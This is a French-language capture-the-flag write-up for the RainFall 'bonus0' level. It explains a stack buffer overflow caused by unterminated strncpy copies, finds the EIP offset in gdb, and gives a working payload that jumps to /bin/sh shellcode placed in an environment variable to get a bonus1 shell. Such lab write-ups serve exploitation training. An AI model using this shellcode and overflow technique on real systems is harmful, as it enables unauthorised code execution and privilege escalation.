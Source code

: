 # Soluce

Payload : 
```
(python -c 'print("A" * 4095 + "\n" + "A" * 9 + "\x1d\xf3\xff\xbf" + "A" * 7)') > payload; cat payload - | ./bonus0
```

## Description du code

En observant le code source nous pouvont constater que 2 fonction son presente :

La Fonction pp :

- Elle prend en argument une string de destination
- Elle declare 2 string d'environ une taille de 20 octet, S1 et S2
- Elle appel deux fois la fonction p en lui passant toujour un - et a la suite les 2 string declarer precedement
- Puis elle copie S1 dans la string de destination  grace a strcpy
- Elle ajoute un espace a la fin de destination
- Et enfin elle concatene la string de destination avec S2 grace a strcat

La fonction p :

- Elle prend 2 argument une string de destination et une string qui servira de prompt
- Elle declare un buffer d'une taille de 4104 octet
- Elle affiche sur l'entree standard la string qui stock le prompt
- Elle lis sur l'entree standard 4096 charactere maximul et stock le tout dans le buffer 
- Elle cherche un \n dans le buffer et le remplace par un \0 grace a strchr
- Et enfin elle copie les 20 premiere characteres dans dest grace a strncpy

## Explication de L'exploit

Maintenant on peu constater plusieur chose dans ce code, deja si les string qui sont entree dans p depasse les 20 charactere elle sont copier sans \0 donc quand strcpy et strcat sont appeler cela de overwritte des registre dans la stack et pottentiellement de segfault, testons :

```
bonus0@RainFall:~$ gdb ./bonus0 
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���
0x41336141 in ?? ()
```

On peu constater plusieur chose, deja cela segfault apres avoir puts, on peu voir que pour s1 equivaut a s1 + s2 donc cela overwrite bien, maintenant voyons voir l'etat des registre en utilisant 2 string differente pour deviner ou est notre offset :

```
(...)
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A
 - 
Da0Da1Da2Da3Da4Da5Da6Da7D
Aa0Aa1Aa2Aa3Aa4Aa5AaDa0Da1Da2Da3Da4Da5Da��� Da0Da1Da2Da3Da4Da5Da���
0x44336144 in ?? ()
(gdb) info r
eax            0x0      0
ecx            0xffffffff       -1
edx            0xb7fd28b8       -1208145736
ebx            0xb7fd0ff4       -1208152076
esp            0xbfffef50       0xbfffef50
ebp            0x32614431       0x32614431
esi            0x0      0
edi            0x0      0
eip            0x44336144       0x44336144
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33   
```

44336144 -> D3aD -> Da3D -> 9 in Da0Da1Da2Da3Da4Da5Da6Da7D

On peu voir que EIP est overwritte a l'offset 9 de S2, on peu en deduire que l'on on a seulment 11 octet pour notre placer du code arbitraire car l'on a seulement 20 octet qui seront copier dans s1 et 9 octet setont utiliser pour du padding, donc ret to libc est impossible car il coute 12 octet, un shellcode est possible mais seulement si il utilise que 11 octet le plus simple reste de passer par un shellcode stocker dans notre variable d'environnement.

```
export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')
```

Recuperont l'adresse de notre shellcode dans le program :

```
(...)
Breakpoint 1, 0x080485a7 in main ()
(gdb) call (char *) getenv("SHELLCODE")
$1 = 0xbffff129 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"(...)
```

On a mis 2000 de nop sled pour etre plus precis dans notre payload, on va ajouter a notre adresse du shellcode 500 ce qui va faire :

bffff129 + 500 = bffff31d

Maintenant pour faire executer notre payload, il faudra passer par un fichier cependant 2 entree son attendu et il ne sera pas possible de juste faire un \n dans notre fichier car, il ne stoppera pas le premier read, ce qu'on va faire c'est que l'on va ecrire sur l'entree standard 4095 caractere + un \n pour ne pas segfault dans le strchr, ce qui va avoir pour effet de stopper le premier read, ensuite on mettra notre padding de 9 l'adresse de au milieu de notre nop sled et enfin les 7 caractere supplementaire pour faire segfault puts, ce qui aura pour effet d'acceder a notre shellcode et l'executer.


## Payload

[Padding de 4095] + ["\n" Pour ne pas segfault lors de strchr] + [Padding de 9] + [Adrresse dans le nop sled] + [Padding pour segfault]

bonus0@RainFall:~$ (python -c 'print("A" * 4095 + "\n" + "A" * 9 + "\x1d\xf3\xff\xbf" + "A" * 7)') > payload; cat payload - | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAA��� AAAAAAAAA���AAAAAAA���
whoami
bonus1